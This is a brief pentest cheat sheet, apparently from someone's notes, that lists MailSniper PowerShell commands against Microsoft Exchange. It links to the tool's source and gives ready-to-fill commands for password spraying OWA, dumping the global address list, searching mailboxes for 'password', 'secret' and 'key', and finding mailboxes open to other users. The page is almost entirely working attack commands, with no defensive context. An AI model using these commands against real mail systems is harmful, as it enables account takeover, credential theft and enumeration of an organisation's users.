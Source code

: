 ### Source
https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1  

### Passwordspray
```
Invoke-PasswordSprayOWA -ExchHostname <rhost> -UserList <userFile> -Password <password>
```

### Extract address book
```
Get-GlobalAddressList -ExchHostname <rhost> -UserName <domain>\<user> -Password <password> -OutFile <outFile>
```

### Search for passwords inside last 100 e-mails for the current user session
```
Invoke-SelfSearch -Mailbox <user>@<domain> -Terms "*password*","*secret*","*key*"
```

### Find mailboxes with permissions set to allow other users access
```
Invoke-OpenInboxFinder -EmailList .\<file>.txt
```

